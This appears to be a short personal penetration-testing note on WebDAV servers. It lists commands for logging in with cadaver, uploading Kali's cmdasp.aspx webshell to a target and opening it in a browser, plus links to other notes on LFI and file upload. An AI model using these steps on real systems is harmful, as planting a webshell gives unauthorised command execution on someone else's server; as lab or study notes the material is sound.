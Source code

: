```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

![[Pasted image 20220328105716.png]]

#### Login
```bash - kali
cadaver http://$TARGET
```

Sometimes you see webdav at different location, be sure to follow your dirsearch.py results!

#### Reverse Shell
```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx .
```

Login with steps above if needed.

```bash - kali
put cmdasp.aspx cmdasp.aspx
```

Visit page via browser.
```
http://$TARGET/cmdasp.aspx
```
#### LFI
![[3._LFI RFI#Webdav creds]]

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#WebDav]]

#### File Upload
![[TechLexicon/Penetration Testing/Reference/7._Tools/Curl#Upload file]]

#### Webdav trigger webshell
![[TechLexicon/Penetration Testing/Reference/7._Tools/Curl#Webdav trigger webshell]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
